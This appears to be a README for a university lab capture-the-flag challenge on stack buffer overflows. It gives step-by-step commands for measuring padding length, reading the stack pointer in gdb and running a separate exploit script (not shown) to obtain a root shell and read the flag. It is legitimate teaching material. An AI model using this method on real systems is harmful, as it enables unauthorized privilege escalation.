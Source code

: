 
# CTF 4 - BOF

## SETUP

1. Deploy your challenge instance
1. Open a terminal and connect to your instance with:

    ``` bash
    ssh {unix_username}@syssec-lab.s3.eurecom.fr -p {port_number}
    ```

1. In your home directory, create a file called "exploit" and copy the content of **[`exploit`](exploit)**

    ```bash
    vi $HOME/exploit
    ```

    *Save and quit with `:wq`*

## ATTACK

1. Compute the length of the string that will be passed to the vulnerable program

    ```bash
    echo $(($(grep -e "+[0-9]" $HOME/bof/vuln.c | sed 's/.*+\([0-9]\+\)\].*/\1/')/16*16 + 97))
    ```

1. Navigate to ./bof and run ./runner under gdb

    ```bash
    cd $HOME/bof
    env - gdb ./runner
    ```

1. Get the address of the stack pointer by runnig the following lines:

    ``` bash
    unset env LINES
    unset env COLUMNS
    b 24
    y
    r `perl -e 'print "A" x {string_length}'`
    p/x $esp
    ```

    The address of your stack pointer will be printed.

    > Example:  
      $1 = 0xffffffff

    Save this address and quit gdb

    ```bash
    q
    y
    ```

1. Run *exploit* with the address you just got

    ```bash
    bash $HOME/exploit {esp_address}
    ```

    > Example:  
      bash $HOME/exploit 0xffffffff

1. Once you get the root shell, you can cat the flag

    ```bash
    cat arena/flag
    ```
